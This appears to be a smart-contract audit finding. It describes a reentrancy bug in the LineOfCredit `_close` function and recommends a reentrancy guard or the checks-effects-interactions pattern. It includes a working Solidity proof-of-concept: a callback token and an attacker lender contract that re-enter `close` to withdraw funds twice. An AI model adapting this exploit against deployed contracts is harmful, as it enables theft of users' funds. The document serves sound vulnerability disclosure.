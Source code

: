 # Reentrancy attack when closing a credit in the LineOfCredit contract

There is a reentrancy vulnerability in the `_close` function of the LineOfCredit contract, which may lead a malicious lender to steal funds from the line contract while closing his position.

## Impact

The `_close` function is used to finalize a credit and send the deposit and interest back to the lender. The function will first send the payment back to the lender and then update the state of the credit (in this case the credit is deleted).

If the credit token is an ERC20 with callbacks (variants of this include ERC223 or ERC777), then a reentrancy attack is possible using a contract that receives the hook and reenters the `close` function.

This will allow a malicious lender to remove his funds multiple times, stealing funds from the line of credit.

Note that this attack can also be triggered using ETH. In this case it would be difficult to pull since `LineLib.sendOutTokenOrETH` uses `address.transfer(amount)` which has a cap of 2300 units of gas.

## PoC

In this test the attacker uses a simplified version of an ERC223 token (SimpleERC223Token, for demo purposes) that allows him to execute a reentrancy attack using a contract that acts as the lender (ReentrancyLender). In the test the attacker reenters just once to simplify the issue, but it can potentially reenter any number of times.

Note: the context for this test (setup, variables and helper functions) is similar to the one found in the file `LineOfCredit.t.sol`.

```
interface IERC223Recipient {
    function tokenFallback(address, uint256) external;
}

contract SimpleERC223Token is ERC20 {
    constructor() ERC20("Simple ERC223 Token", "SET") {}
    
    function mint(address account, uint256 amount) external returns(bool) {
        _mint(account, amount);
        return true;
    }

    function _afterTokenTransfer(address from, address to, uint256 amount) internal virtual override {
        // Call parent hook
        super._afterTokenTransfer(from, to, amount);
        if (Address.isContract(to)) {
            // This should use a ERC165 style check, using try/catch to simplify the scenario
            try IERC223Recipient(to).tokenFallback(msg.sender, amount) {} catch {}
        }
    }
}

contract ReentrancyLender is IERC223Recipient {
    bool reentered;
    ILineOfCredit line;
    bytes32 id;
    
    constructor(ILineOfCredit _line) {
        line = _line;
    }
    
    function tokenFallback(address, uint256) external {
        // reenter once for demo purposes, but this can potentially reenter multiple times to empty the contract
        if (!reentered) {
            reentered = true;
            close();
        }
    }
    
    function addCredit(address token, uint256 amount) external {
        ERC20(token).approve(address(line), type(uint256).max);
        id = line.addCredit(100, 1, amount, token, address(this));
    }
    
    function close() public {
        line.close(id);
    }
}

function test_close_Reentrancy() public {
    SimpleERC223Token token = new SimpleERC223Token();
    oracle.enableToken(address(token));
    
    uint256 amount = 1 ether;
    
    // make sure borrower has enough to repay
    token.mint(borrower, 2 * amount);
    vm.prank(borrower);
    token.approve(address(line), type(uint256).max);
    
    // simulate credit tokens in the line, this may be from other lenders or coming from the spigot
    token.mint(address(line), 10 ether);
    
    ReentrancyLender reentrancyLender = new ReentrancyLender(line);
    token.mint(address(reentrancyLender), amount);
    
    // Borrower addCredit
    vm.prank(borrower);
    line.addCredit(dRate, fRate, amount, address(token), address(reentrancyLender));
    
    // Lender addCredit
    reentrancyLender.addCredit(address(token), amount);
    
    bytes32 id = CreditLib.computeId(address(line), address(reentrancyLender), address(token));
    
    // Borrower takes credit
    vm.prank(borrower);
    line.borrow(id, amount);
    
    // Advance time...
    vm.warp(block.timestamp + 30 days);
    line.updateOutstandingDebt();
    
    // Borrower repays debt
    (, uint256 principal, uint256 interestAccrued,,,,)  = line.credits(id);
    uint256 debt = principal + interestAccrued;
    vm.prank(borrower);
    line.depositAndRepay(debt);
    
    // Initiate hack, lender calls close and reenters the function
    reentrancyLender.close();
    
    // Lender has doubled his tokens
    uint256 lenderBalance = token.balanceOf(address(reentrancyLender));
    console.log("Lender balance:", lenderBalance);
    assertEq(lenderBalance, 2 * (principal + interestAccrued));
}
```

## Recommendation

Use a reentrancy guard on the function, or move the payment call (`LineLib.sendOutTokenOrETH`) after the state is updated, following the "check effects interactions" pattern (see https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html).
